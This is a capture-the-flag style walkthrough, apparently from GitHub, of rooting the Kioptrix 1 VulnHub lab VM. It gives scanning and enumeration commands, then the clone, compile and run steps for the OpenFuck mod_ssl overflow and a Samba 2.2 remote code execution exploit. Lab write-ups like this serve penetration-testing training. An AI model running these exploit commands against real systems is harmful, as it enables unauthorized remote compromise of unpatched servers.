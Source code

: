 # Kioptrix 1 - VulnHub

**netdiscover -i eth0**

![kio1](https://user-images.githubusercontent.com/15195048/95851963-4b32d000-0d53-11eb-801a-7851796a3b23.png)

**IP 192.168.1.10**

**nmap -sC -sV 192.168.1.10**

![kio2](https://user-images.githubusercontent.com/15195048/95851965-4c63fd00-0d53-11eb-9b2a-855be54df5ba.png)

## 1. Exploiting Apache 

OpenSSH 2.9p2 (protocol 1.99)
Http mod_ssl/2.8.4

This module provides SSL v2/v3 and TLS v1 support for the Apache HTTP Server. 

Exploits: Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow 

**searchsploit mod_ssl**

![kio3](https://user-images.githubusercontent.com/15195048/95851966-4cfc9380-0d53-11eb-911e-2d0536d6b4b3.png)

 
## A) ExploitDB 
Link:https://www.exploit-db.com/exploits/764
number of errors
FIX
https://medium.com/@snowshoe/how-to-compile-openfuckv2-c-69e457b4a1d1

## B) GITHUB

Link:https://github.com/exploit-inters/OpenFuck

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
git clone https://github.com/heltonWernik/OpenFuck.git
apt-get install python3.8-venv
apt-get install libssl-dev
gcc -o OpenFuck OpenFuck.c -lcrypto
./OpenFuck
./OpenFuck 0x6a 192.168.80.145 443 -c 40
error
./OpenFuck 0x6b 192.168.80.145 443 -c 40 works
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


![kio4](https://user-images.githubusercontent.com/15195048/95851969-4cfc9380-0d53-11eb-98d4-8b7642f08530.png)


## 2. Samba Exploit

**1.enum4linux -a 192.168.1.10**

**2.smbclient 192.168.1.10 or smbclient -N -L \\192.168.1.10\\**

**3.nmap -p 139 --script=smb-vuln*** **192.168.1.10**

**4.smbmap -P 139 -H 192.168.1.10**

**5.samba_version.py Github**

https://github.com/amitn322/smb-version/blob/master/samba_version.py

**python smb-version/samba_version.py -s 192.168.1.10**

![kio5](https://user-images.githubusercontent.com/15195048/95851970-4d952a00-0d53-11eb-9d2a-27844dc33287.png)

**Version: Samba2.2**
**searchsploit samba 2.2**

![kio6](https://user-images.githubusercontent.com/15195048/95851974-4e2dc080-0d53-11eb-9467-a88125c91e68.png)



**Samba < 2.2.8 (Linux/BSD) - Remote Code Execution**


![kio7](https://user-images.githubusercontent.com/15195048/95851978-4ec65700-0d53-11eb-8007-ac8f11e13e5f.png)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
gcc 10.c
./a.out -b -o 192.168.1.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![kio8](https://user-images.githubusercontent.com/15195048/95851983-4ec65700-0d53-11eb-98ea-370a424c4437.png)


**Rooted**
